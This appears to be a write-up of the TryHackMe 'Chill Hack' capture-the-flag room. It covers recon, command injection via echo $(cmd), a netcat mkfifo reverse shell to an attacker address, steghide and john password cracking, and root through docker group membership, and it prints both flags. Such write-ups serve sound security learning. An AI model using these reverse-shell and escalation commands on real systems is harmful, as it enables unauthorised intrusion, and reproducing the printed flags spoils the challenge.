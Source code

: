 Room: https://tryhackme.com/room/chillhack
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xx.xxx
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
FTP service allows us to connect Anonymously.  
However, there's no useful information that gives us two possible usernames.  

**gobuster** dir -u http://xx.xx.xx.xxx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100
```
/images               (Status: 301) [Size: 313] [--> http://xx.xx.xx.xxx/images/]
/css                  (Status: 301) [Size: 310] [--> http://xx.xx.xx.xxx/css/]   
/js                   (Status: 301) [Size: 309] [--> http://xx.xx.xx.xxx/js/]    
/fonts                (Status: 301) [Size: 312] [--> http://xx.xx.xx.xxx/fonts/] 
/secret               (Status: 301) [Size: 313] [--> http://xx.xx.xx.xxx/secret/]
```

Navigating to **/secret** directory of the page, we find out that the input is filtered.  
We can easily bypass that by using **echo $(cmd)** to run commands.  

We can use this to create a reverse shell to our attacking machine.  
**echo** $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc xx.x.x.xxx 8888 >/tmp/f)

By navigating to **/var/www/files** we can find two php files.  
Inside the **hacker.php** we find some hints.
```
	<img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
	<h1 style="background-color:red;">You have reached this far. </h2>
	<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
```

At some point, that image should appear along with the text above.  
This makes me think it has something to do with the image shown.  

We can find the photo at **/var/www/files/images/**.  
I started a python http server and downloaded the photo to my attacking machine.  

Using **steghide** we can find a zip archive embedded in the photo.    
We can extract that with no passphrase.  

**zip2john** backup.zip > hash  
**john** hash --wordlist=/usr/share/wordlists/rockyou.txt => pass1word  

Extracting the zip, we are given a **source_code.php** file.  
```
<html>
<head>
	Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
			Email: <input type="email" name="email" placeholder="email"><br><br>
			Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
		</form>
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
		{ 
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>
```

We can see that is the source code of a poorly coded login portal.  
It gives us the user **Anurodh** and the password **!d0ntKn0wmYp@ssw0rd**.  

**su anurodh**, using the password found earlier.  
This allows us to change the user from **www-data** to **anurodh** on the target machine.  

**anurodh@ubuntu:/home$** id
```
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

Giving the fact that we're in the docker group, the machine is already rooted.  
On the [GTFObins](https://gtfobins.github.io/gtfobins/docker/#sudo) we can find the required command(s) to escalate privileges.   

> docker run -v /:/mnt --rm -it alpine chroot /mnt sh

After some seconds, we're under the root account.

**First flag is at /home/apaar/ and is {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}** **[1]**.   
**Second and final flag is at /root/proof.txt and is {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}** **[2]**.  
